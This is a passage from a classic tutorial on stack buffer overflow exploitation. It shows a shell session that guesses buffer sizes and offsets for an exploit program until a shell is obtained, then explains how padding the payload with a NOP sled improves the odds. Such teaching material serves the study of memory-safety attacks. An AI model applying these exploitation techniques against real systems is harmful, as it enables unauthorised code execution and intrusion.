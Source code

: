    Now we can try to guess what the buffer and offset should be:

</PRE>
```shell
[aleph1]$ ./exploit2 500
Using address: 0xbffffdb4
[aleph1]$ ./vulnerable $EGG
[aleph1]$ exit
[aleph1]$ ./exploit2 600
Using address: 0xbffffdb4
[aleph1]$ ./vulnerable $EGG
Illegal instruction
[aleph1]$ exit
[aleph1]$ ./exploit2 600 100
Using address: 0xbffffd4c
[aleph1]$ ./vulnerable $EGG
Segmentation fault
[aleph1]$ exit
[aleph1]$ ./exploit2 600 200
Using address: 0xbffffce8
[aleph1]$ ./vulnerable $EGG
Segmentation fault
[aleph1]$ exit
.
.
.
[aleph1]$ ./exploit2 600 1564
Using address: 0xbffff794
[aleph1]$ ./vulnerable $EGG
$
```
<PRE>

   As we can see this is not an efficient process.  Trying to guess the
offset even while knowing where the beginning of the stack lives is nearly
impossible.  We would need at best a hundred tries, and at worst a couple of
thousand.  The problem is we need to guess *exactly* where the address of our 
code will start.  If we are off by one byte more or less we will just get a
segmentation violation or a invalid instruction.  One way to increase our
chances is to pad the front of our overflow buffer with NOP instructions.
Almost all processors have a NOP instruction that performs a null operation.
It is usually used to delay execution for purposes of timing.  We will take
advantage of it and fill half of our overflow buffer with them.  We will place
our shellcode at the center, and then follow it with the return addresses. If
we are lucky and the return address points anywhere in the string of NOPs,
they will just get executed until they reach our code.  In the Intel
architecture the NOP instruction is one byte long and it translates to 0x90
in machine code.  Assuming the stack starts at address 0xFF, that S stands for
shell code, and that N stands for a NOP instruction the new stack would look
like this:

bottom of  DDDDDDDDEEEEEEEEEEEE  EEEE  FFFF  FFFF  FFFF  FFFF     top of
memory     89ABCDEF0123456789AB  CDEF  0123  4567  89AB  CDEF     memory
           buffer                sfp   ret   a     b     c
